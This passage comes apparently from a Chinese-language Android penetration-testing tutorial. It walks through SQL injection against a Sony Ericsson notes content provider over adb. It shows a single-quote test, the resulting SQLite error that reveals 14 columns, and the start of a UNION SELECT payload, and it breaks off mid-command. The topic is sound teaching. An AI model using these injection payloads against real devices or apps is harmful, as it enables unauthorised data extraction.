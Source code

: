 ```**  **## 注射试验：

如果您来自传统的 web 应用程序渗透测试背景，您可能知道一个事实，即单引号（'）是 SQL 注入测试中最常用的字符。让我们尝试通过向通过`where`子句传递的值添加一个引号。

该命令现在看起来如下所示：

```
$ adb shell content query --uri content://com.sonyericsson.notes.provider.Note/notes/ --where "_id=1'"

```

其思想是检查此单引号是否会导致数据库执行的 SQL 查询中出现语法错误。如果是，则表示外部输入未正确验证，因此应用程序中可能存在注入漏洞。

运行上一个命令将产生以下输出：

```
$ adb shell content query --uri content://com.sonyericsson.notes.provider.Note/notes/ --where "_id=1'"

Error while accessing provider:com.sonyericsson.notes.provider.Note
android.database.sqlite.SQLiteException: unrecognized token: "')" (code 1): , while compiling: SELECT isdirty, body, account_id, voice_path, doodle_path, deleted, modified, sync_uid, title, meta_info, _id, created, background, usn FROM notes WHERE (_id=1')
 at android.database.DatabaseUtils.readExceptionFromParcel(DatabaseUtils.java:181)
 at android.database.DatabaseUtils.readExceptionFromParcel(DatabaseUtils.java:137)
 at android.content.ContentProviderProxy.query(ContentProviderNative.java:413)
 at com.android.commands.content.Content$QueryCommand.onExecute(Content.java:474)
 at com.android.commands.content.Content$Command.execute(Content.java:381)
 at com.android.commands.content.Content.main(Content.java:544)
 at com.android.internal.os.RuntimeInit.nativeFinishInit(Native Method)
 at com.android.internal.os.RuntimeInit.main(RuntimeInit.java:243)
 at dalvik.system.NativeStart.main(Native Method)
$

```

正如您在前面的摘录中所看到的，有一个 SQLite 异常被抛出。一个小小的观察清楚地表明，这是由于我们通过的单一引用。

```
unrecognized token: "')" (code 1): , while compiling: SELECT isdirty, body, account_id, voice_path, doodle_path, deleted, modified, sync_uid, title, meta_info, _id, created, background, usn FROM notes WHERE (_id=1')

```

前面的错误还显示了查询中使用的列的确切数量，即 14。这有助于在查询中编写 UNION 语句以进一步进行操作。

### 查找列号以便进一步提取

与基于 web 的 SQL 注入类似，现在让我们使用 UNION 执行 SELECT 语句以查看返回的列。由于我们直接在终端上执行此操作，因此所有 14 列都将被回显。但是让我们测试一下。

运行以下命令将打印从 1 开始的所有 14 个数字：

```
$ adb shell content query --uri content://com.sonyericsson.notes.provider.Note/notes/ --where "_id=1 ) union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14-- ("
